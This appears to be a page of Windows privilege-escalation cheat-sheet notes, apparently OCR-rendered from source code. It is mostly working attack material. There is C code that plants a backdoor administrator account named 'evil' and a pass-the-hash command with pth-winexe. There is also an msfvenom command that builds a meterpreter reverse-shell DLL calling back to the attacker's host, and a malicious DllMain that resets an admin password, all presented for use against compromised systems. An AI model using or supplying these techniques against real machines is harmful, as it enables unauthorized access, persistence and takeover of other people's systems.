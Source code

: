 /si: means searching in current directory

#### Adding a new admin user to the compromised windows system.

Replace this code with an executable file with weak permissions and is run as a service or as an admin.

```
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user evil Ev!lpass /add");
i = system ("net localgroup administrators evil /add");
return 0;
}
```

#### Pass The Hash

This technique works if you managed to retrieve the NTLM hash of one of the users. From your attacking machine, issue the below command

```
pth-winexe -U user%NTLM-hash --system //target-ip cmd.exe
```

#### DLL Hijacking

DLL hijacking relies on two conditions 1- An application that is trying to access a non-existent DLL 2- a write access to the location of that missing DLL After you know the name of the DLL that is missing, you can create a malicious DLL.

**Creating malicious DLL with msfvenom**

```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=your-ip LPORT=your-port -f dll > malicious.dll
```

After you have generated the DLL, place it in the location where the application is trying to access.

**Manually using a C code**

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {

	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /k net user admin newpass");
		ExitProcess(0);
	}
	return TRUE;
}
```
